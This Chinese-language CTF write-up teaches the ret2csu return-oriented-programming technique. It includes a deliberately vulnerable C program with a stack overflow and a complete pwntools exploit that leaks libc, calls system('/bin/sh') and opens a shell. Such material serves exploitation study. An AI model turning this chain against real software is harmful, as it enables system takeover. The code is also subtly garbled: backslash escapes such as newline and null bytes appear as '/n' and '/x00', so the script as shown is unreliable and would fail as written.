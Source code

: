 ```yaml
---
title: 【PWN】ret2csu
---
```


## 原理

在64位程序中，当函数参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9，在大多时候下，当参数过多的时候，我们很难找到部署寄存器值的gadget。不过还有一些万能gadget能被我们利用，__libc_csu_init这个函数是用来对libc进行初始化操作的，下面先来看一下这个函数

![image-20210106101011242](/images/ret2csu/1.png)

![image-20210119152202060](/images/ret2csu/2.png)

从上面两个图可以看出不同版本的这个函数有一定的区别。但影响不大，重要的是如何构造payload，像write函数有三个参数，在64位系统下，我们需要往rdi，rsi，rdx三个寄存器中写入数据。注意看红色框2的部分的前三条汇编指令 ，其中edi是rdi的低32位，在绝大多数情况下也能达到相同的效果。而r15，r14，r13又可以由红色框2进行控制，通过利用这两段代码就能达到间接控制寄存器的功能了。

```assembly
mov     rdx, r15   
mov     rsi, r14
mov     edi, r13d
```
## 例题

题目来源：一步一步学ROP之linux_x64篇 – 蒸米，链接：https://github.com/zhengmin1989/ROP_STEP_BY_STEP/blob/master/linux_x64/level5。源代码如下：

```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
	write(STDOUT_FILENO, "Hello, World/n", 13);
	vulnerable_function();
}
```

有明显的栈溢出，使用ida64查看，plt表中只有write函数和read函数。

![image-20210119203354798](/images/ret2csu/3.png)

我们的目的是执行system("/bin/sh")，所以需要泄露libc函数的地址，可以通过write打印出来，通过计算偏移可以求出system函数的地址，然后使用read函数将真实的system函数地址和/bin/sh字符串写入bss段，最后调用system函数即可。

![image-20210119204007415](/images/ret2csu/4.png)

其中rbx设为0，是为了防止其干扰 call    qword ptr [r12+rbx*8]的执行，这样我们就可以通过控制r12的值进行控制函数执行流。将rbp设为1，是为了不让这句代码jnz     short loc_4005F0进行跳转，原因是rbx最初为0，然后又加1了，所以rbx的值为1，cmp rbx，rbp是比较rbx和rbp的大小，jnz是rbx != rbp时才跳转，我们不希望它跳转，所以控制它俩相等。

同理，可继续构造payload。

![image-20210119204841035](/images/ret2csu/5.png)

可能有人会有疑问，为什么要将system函数地址写入bss段这么麻烦，是因为这行代码call    qword ptr [r12+rbx*8]是间接跳转，也就是先将r12地址的值取出来，再进行跳转。最后的效果就是，从bss_addr中取出system函数的地址，再跳转到system函数处。

![image-20210119204946143](/images/ret2csu/6.png)

最终的payload，其中有几个玄学的点，开debug模式就会失败，第三个payload使用cyclic(0x38)会失败，通过LibcSeacher找函数偏移也会失败。（暂且找不到原因）

```python
from pwn import *

#context.log_level = 'debug'

p = process('./level5')
elf = ELF('./level5')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

write_got = elf.got['write']
read_got = elf.got['read']
main_addr = 0x400564
bss_addr = 0x601028
gadget1 = 0x400606
gadget2 = 0x4005F0

payload1 = cyclic(0x88) + p64(gadget1) + p64(0) + p64(0) + p64(1) + p64(write_got) + p64(1) + p64(write_got)
payload1 += p64(8) + p64(gadget2) + cyclic(0x38) + p64(main_addr)

p.sendlineafter('/n', payload1)
sleep(1)

write_addr = u64(p.recv(8))
sys_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])

payload2 = cyclic(0x88) + p64(gadget1) + p64(0) + p64(0) + p64(1) + p64(read_got) + p64(0) + p64(bss_addr)
payload2 += p64(16) + p64(gadget2) + cyclic(0x38) + p64(main_addr)

p.sendlineafter('/n', payload2)
sleep(1)

p.send(p64(sys_addr))
p.send("/bin/sh/x00")


payload3 = cyclic(0x88) + p64(gadget1) + p64(0) + p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr + 8) + p64(0)
payload3 += p64(0) + p64(gadget2) + '/x00' * 0x38 + p64(main_addr)

sleep(1)
p.sendlineafter('/n', payload3)

p.interactive()
```

